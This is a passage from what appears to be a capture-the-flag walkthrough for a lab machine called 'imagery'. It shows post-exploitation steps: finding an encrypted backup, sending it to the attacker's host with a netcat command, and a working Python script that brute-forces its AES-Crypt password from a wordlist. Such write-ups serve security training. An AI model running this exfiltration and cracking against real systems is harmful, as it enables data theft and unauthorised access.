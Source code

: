 **Shell obtained:**
```bash
web@imagery:/home/web/web$ id
uid=1000(web) gid=1000(web) groups=1000(web)
```

## Post-Exploitation

### Discovering Encrypted Backup

Running `linpeas.sh` reveals an interesting file:

```bash
web@imagery:/var/backup$ ls -la
-rw-r--r-- 1 root root 23456789 Aug 06 12:07 web_20250806_120723.zip.aes
```

The file is world-readable but AES-encrypted.

### Exfiltrating the Backup

**On attacker machine:**
```bash
nc -lvnp 4444 > web_20250806_120723.zip.aes
```

**On target:**
```bash
nc 10.10.14.xx 4444 < /var/backup/web_20250806_120723.zip.aes
```

### Cracking AES Encryption

The backup uses AES-Crypt format. We brute-force it with rockyou.txt:

```python
#!/usr/bin/env python3
import pyAesCrypt

wordlist = open('/usr/share/wordlists/rockyou.txt', 'rb')
infile = 'web_20250806_120723.zip.aes'
buffer = 64 * 1024

for line in wordlist:
    password = line.strip().decode('utf-8', errors='ignore')
    try:
        pyAesCrypt.decryptFile(infile, 'output.zip', password, buffer)
        print(f"[+] Password found: {password}")
        break
    except ValueError:
        continue
```

**Password found:** `bestfriends`

### Extracting Mark's Credentials
